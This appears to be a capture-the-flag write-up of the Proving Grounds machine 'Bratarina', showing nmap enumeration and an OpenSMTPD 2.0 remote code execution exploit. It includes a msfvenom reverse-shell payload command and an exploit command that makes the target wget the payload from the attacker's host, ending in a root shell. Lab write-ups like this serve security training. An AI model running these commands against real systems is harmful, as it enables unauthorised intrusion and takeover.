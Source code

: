 ```yaml
---
title: Proving Grounds - Bratarina
date: 2022-09-17 12:00:00 -500 
categories: [OSCP Prep, Proving Grounds]
tags: [oscp,linux]
---
```


# Bratarina Overview

Machine Details:

|IP|Hostname|Operating System|
|---|---|---|
|192.168.109.71|Bratarina|Linux|

## Path to Exploitation
Bratarina is a really straightforward machine that requires some basic enumeration of the identified services. In this case we exploit a vulnerable SMTP service that gain root access to the machine. 

# Bratarina Enumeration

## Full Port Scan

```bash
nmap 192.168.109.71 -p- -oA Bratarina/nmap/full-port --open -Pn -vv
```

Which Resulted In:

|PORT|SERVICE|
|----|-------|
|22|ssh|
|25|smtp|
|80|http|
|445|microsoft-ds|

## Service Scan

```bash
nmap 192.168.109.71 -p 22,25,80,445 -sC -sV -oA Bratarina/nmap/service-scan -Pn
```

Which Resulted In:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|22|ssh|7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)|
|25|smtp||
|80|http|1.14.0 (Ubuntu)|
|445|netbios-ssn|smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)|

# SMTP

We see the server version is OpenSMTPD 2.0

We can search for vulnerabilities that affect this version and come across the following [RCE Exploit](https://www.exploit-db.com/exploits/47984)

We try launching reverse shell one-liners with no luck and decide to upload a reverse shell file to the host. We need to generate our reverse shell payload

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.109 LPORT=445 -f elf > evil.elf
```

We'll start an HTTP server and upload our file to the /tmp directory on the host 


```bash
python3 exploit.py 192.168.109.71 25 "wget 192.168.49.109/evil.elf -O /tmp/evil.elf"
```

![Payload](/assets/ProvingGrounds/Bratarina/payload.png)

We get a hit on our HTTP server

![HTTP Callback](/assets/ProvingGrounds/Bratarina/http-hit.png)

We then change our payload to an executable, setup our listener, and launch the payload

![Privilege Escalation](/assets/ProvingGrounds/Bratarina/priv-esc.png)

And we see we get a shell running as root
